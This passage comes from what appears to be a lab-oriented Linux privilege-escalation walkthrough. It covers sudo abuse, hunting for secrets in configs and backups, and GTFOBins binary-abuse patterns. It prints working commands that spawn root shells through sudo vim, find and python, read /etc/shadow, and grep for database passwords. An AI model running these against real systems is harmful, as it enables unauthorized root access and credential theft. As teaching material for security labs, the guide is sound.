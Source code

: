 ```bash
sudo -l                         # show allowed sudo commands for current user
# Example: if allowed to run /usr/bin/vim as root:
sudo /usr/bin/vim -c ':!/bin/sh'
# If allowed a command, check GTFOBins for that binary's abuse patterns.
```

Notes:

* If `sudo -l` requires a password and you don't have it, don't force it — move to other vectors.
* When `sudo` allows running arbitrary editors, shells, or `find`, `tar`, `rsync`, etc., GTFOBins often has quick payloads. ([GTFOBins][1])

---

# Task 6 — Services, configs & secrets (web apps, DB, backups)

**Why:** Applications often store credentials in config files; backups may contain source code or creds.

Checklist & commands:

```bash
# Look for env/config files in webroots
find /var/www -type f -iname "*.env" -o -iname "*.php" -o -iname "*.yml" 2>/dev/null
grep -R --line-number -iE "DB_PASS|DATABASE_URL|DB_USER|MYSQL_ROOT" /var/www /etc 2>/dev/null || true
# Search for backup files anywhere
find / -type f -iname "*backup*" -o -iname "*.bak" -o -iname "*.old" 2>/dev/null | head -n 200
```

Examples:

* `.env` files often contain `DB_PASSWORD`.
* Old backups (`site.sql`, `.tar.gz`) sometimes left in webroot are a goldmine for secrets.

---

# Task 7 — Abusing binaries (GTFOBins patterns)

GTFOBins is the dirtbike of the privesc world — it lists how normal binaries can read/write files, spawn shells, and more. Learn to search it fast. ([GTFOBins][1])

Common examples (read-only — study these patterns in labs):

```bash
# If 'find' is allowed by sudo
sudo find . -exec /bin/sh -i \; -quit

# If 'python' exists and is usable
python -c 'import pty; pty.spawn("/bin/bash")'

# If 'less' or 'more' is available
less /etc/shadow
# inside less: use !sh or :!sh to spawn a shell in some builds

# If 'git' exists and you can write to target dir
git apply --unsafe-paths --directory / x.patch
```
